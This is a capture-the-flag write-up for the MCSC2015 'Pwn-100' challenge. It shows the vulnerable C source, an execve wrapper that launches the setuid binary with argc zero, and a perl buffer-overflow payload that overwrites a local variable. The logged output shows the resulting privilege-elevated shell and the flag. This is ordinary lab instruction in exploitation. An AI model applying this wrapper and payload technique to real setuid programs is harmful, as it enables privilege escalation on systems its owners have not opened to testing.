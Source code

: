\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#
#MCSC2015 writeup for Pwn-100<br>
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#

pwn0@MCSC2015:/challenges/pwn0$ ls -l<br>
total 16<br>
-rws--s--x 1 pwned0 pwned0 7492 mai   18 15:13 0<br>
-r-------- 1 pwned0 pwned0   52 mai   18 15:13 FLAG<br>
-rw-r--r-- 1 root   root    558 mai   18 15:13 pwn0.c<br>
<br>
after a quick view in pwn0.c, here's an interesting function<br>
<br>
void vuln()<br>
{<br>
	unsigned int reg;<br>
	char buffer[BUFF_SIZE];<br>
	fgets(buffer , BUFF_SIZE+5 , stdin);<br>
	if(reg == 78954)<br>
	{<br>
		printf("You Win\n");<br>
		system("/bin/dash");<br>
	}<br>
}<br>
<br>
However, this function is executed if and only if argc is equal to zero.<br>
In that case, execve can be handy ...<br>
<br>
<br>
Step 1 : run the program with argc equals to zero to allow the function vuln() to be executed.<br>
Step 2 : overwrite the variable reg with 78954<br>
if(reg == 78954)<br>
{<br>
	printf("You Win\n");<br>
	system("/bin/dash");<br>
}<br>
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#<br>
Step1 : run a program with argc=0<br>
What's special about the family exec call system ?<br>
execve allows you to specify the command-line arguments (including the program name).<br>
a normal call to execve for example would be :<br>
execve("/home/xxx/prog","prog",NULL) witch is similar to /home/xxx/prog with argc equals to 1 as usual ....<br>
execve("/home/xxx/prog",NULL,NULL) would be a little bit different .... argc is equal to zero in that case.<br>
<br>
with that said, let's start exploiting .....<br>
First, we write a small program <br>
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#<br>
\#include \<stdio.h><br>
\#include \<stdlib.h><br>
int main()<br>
{<br>
	execve("/challenges/pwn0/0",NULL,NULL);<br>
}<br>
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#<br>
pwn0@MCSC2015:/tmp$ mkdir /tmp/testing<br>
pwn0@MCSC2015:/tmp$ cd /tmp/testing/<br>
pwn0@MCSC2015:/tmp/testing$ cat wrapper.c<br>
\#include \<stdio.h><br>
\#include \<stdlib.h><br>
int main()<br>
{<br>
	execve("/challenges/pwn0/0",NULL,NULL);<br>
}<br>
pwn0@MCSC2015:/tmp/testing$ gcc wrapper.c -o wrapper<br>
pwn0@MCSC2015:/tmp/testing$ ./wrapper <br>
Good Boy<br>
test<br>
pwn0@MCSC2015:/tmp/testing$<br>
<br>
we are finally able to execute the vuln() function, let's try to exploit it:<br>
The buffer size is 64, 78954 to hexadecimal is 0x1346A<br>
===========================<br>
A successful exploitation would be like this:<br>
pwn0@MCSC2015:/challenges/pwn0$ perl -e 'print "A"x64 . "\x6a\x34\x01\x00"' > /tmp/testing/input<br>
pwn0@MCSC2015:/challenges/pwn0$ cat /tmp/testing/input -|/tmp/testing/wrapper <br>
Good Boy<br>
You Win<br>
id<br>      
uid=1001(pwn0) gid=1001(pwn0) euid=1002(pwned0) egid=1002(pwned0) groups=1002(pwned0),1001(pwn0)<br>
cat FLAG<br>
flaG{I_4M_Th3_EaSy_One_Pwn_th3_N3xt_L3vel_If_U_C4N}<br>
<br>
